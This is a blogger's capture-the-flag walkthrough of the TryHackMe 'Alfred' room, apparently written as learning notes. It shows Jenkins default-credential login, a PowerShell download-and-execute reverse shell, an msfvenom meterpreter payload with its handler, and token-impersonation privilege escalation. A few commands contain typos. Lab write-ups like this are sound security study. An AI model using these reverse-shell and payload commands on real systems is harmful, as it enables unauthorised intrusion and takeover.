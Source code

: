 ```yaml
---
title: THM Room Walkthrough - Alfred
date: '2025-01-22 21:35:00 +0000'
author: b3rdma
categories:
  - Hacking
  - Try Hack Me
tags:
  - nmap
  - enumeration
  - privilege escalation
  - reverse shell
  - metasploit
description: THM room Alfred walkthrough - good room for rev shell/Metasploit practice
media_subpath: /img/alfred/
---
```

## Contents
### Table of contents

<!-- toc -->

- [Task 1 - Initial Access](#task-1---initial-access)
- [Initial Recon - NMAP Scan Results](#initial-recon---nmap-scan-results)
- [Enumeration](#enumeration)
- [Task 2 - Switching Shells](#task-2---switching-shells)
- [Task 3 - Privilege Escalation](#task-3---privilege-escalation)

<!-- tocstop -->

## Task 1 - Initial Access

First things first, lets do a full nmap scan to see what is open on the target.
I used the following command to scan the target:

```bash
sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
```
{: .nolineno }

## Initial Recon - NMAP Scan Results

```bash

┌──(zed   kali)-[~/hacking/thm/rooms/alfred]
└─|||> sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 12:54 GMT
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.131.95, 16) => Protocol wrong type for socket
Offending packet: TCP 10.11.121.104:56714 > 10.10.131.95:53 S ttl=46 id=1811 iplen=11264  seq=3598359036 win=1024 <mss 1460>
Nmap scan report for 10.10.131.95
Host is up (0.038s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-01-18T12:49:06
|_Not valid after:  2025-07-20T12:49:06
|_ssl-date: 2025-01-19T13:41:17+00:00; -16s from scanner time.
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2824.03 seconds

```
{: .nolineno }

## Enumeration

- First went to 10.10.255.69:8080 and was presented with the Jenkins login page
- Tried default `admin:admin` for username and password and that logged me in to
  back-end (default credentials for Jenkins found via search)
- In the project config page we see execution of batch commands is enabled
- Change the `whoami` default command with:

```powershell
powershell iex (New-Object
Net.WebClient).DownloadString('http://10.11.121.104:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
-Reverse -IPAddress 10.11.121.104 -Port 4444
```
{: .nolineno }

- Save the project and then build it so it runs the payload
- Make sure to have the following two commands running on attack machine:

```bash
python3 - http.server
```
{: .nolineno }

```bash
nc -nvlp 4444
```
{: .nolineno }

- Had issues with getting the `nc` command to work on MacOS so booted up Kali
- Worked great once build of the project started on Kali; reverse shell sorted. 
- Had to search about a bit to find the flag at `C:\Users\bruce\Desktop\user.txt`
- Flag is: `79007a09481963edf2e1321abd9ae2a0`

## Task 2 - Switching Shells

The instructions on this part of the room are quite self-explanatory; however,
the steps I took are as follows:

- Use the `msfvenom` command to generate a payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata -e x86/shikata_ga_nai LHOST=10.11.121.104 LPORT=4443 -f exe -o revShell.exe
```
{: .nolineno }

- Once that is done, uploading to the target machine is the next step. In the
shell we already have, run the command 
`powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.11.121.104/revShell.exe','revShell.exe')"`
- This is now ready to use on the target, but first we need to set up Metasploit
  to listen in to it as we are using a meterpreter.
- There is a one-liner on the THM Room page that can be used but I opened
Metasploit the old way and set the required parameters; the commands listed
below in order of execution:

```bash
msfconsole
use exploit/multi/handler
set LOST 10.11.121.104
set LPORT 4443
set PAYLOAD windows/meterpreter/reverse_tcp
run
```
{: .nolineno }

- Once the meterpreter handler connects, use the command `shell` to now have the
  Windows Cmd shell prompt. 
- To answer the question in Task 2, simply run `dir` and look at the file size
(in bytes) of revShell.exe.

## Task 3 - Privilege Escalation

The Task 3 questions are pretty guided by the instructions so here I shall just
add a few screenshots of the results:

![whoami/priv command on kali
linux](20250124-alfred-whoami-priv.webp){: width="700"
height="400" }
_Execution of the `whoami/priv` command_

The next step instructs us to enter `load incognito` and follow that up with
`list_tokens -g`. See screenshot below for results:

![load incognito Meterpreter command on kali
linux](20250124-alfred-load-incognito.webp){: width="700"
height="400" }
_Execution of the `load incognito` Meterpreter command_

The observant will note that I have also run the commands `getuid` and
`impersonate_token "BUILTIN\Administrators"`; The output shows that initially we
were `alfred\bruce`. Not in the screenshot (sorry) is the output from running
the `getuid` command afterwards which will be `NT AUTHORITY\SYSTEM`.

Final steps are to get the process ID of services.exe, migrate to that process
and gain root privileges. Output of the `ps` command below:

![ps command on kali
linux](20250124-alfred-ps-command.webp){: width="700"
height="400" }
_Execution of the `ps` command_

Now we have found the PID we want, run the command `migrate <PID>`, in my case
it was `migrate 668`, and wait for the success message. Root is ours. Final
question answered by `cat`'ing the root.txt file. Location is given which is
nice 🙂. 

![cat and type command on kali
linux](20250124-alfred-final-flag.webp){: width="700"
height="400" }
_Execution of the `cat` command_

> The output from `cat` looked kind of strange to me so I entered shell and used
> `type root.txt` to confirm that the flag was correct. All shown in the
> screenshot but wanted to clarify just in case.
{: .prompt-info }

So that is Alfred completed. I hope this was helpful, informative and possibly
even interesting. Feedback is always welcome but please do view this in the
context that these are basically my learning notes. Definitely let me know if
there are errors, especially in relation to techniques/tools used. 

Thank you and Godspeed.







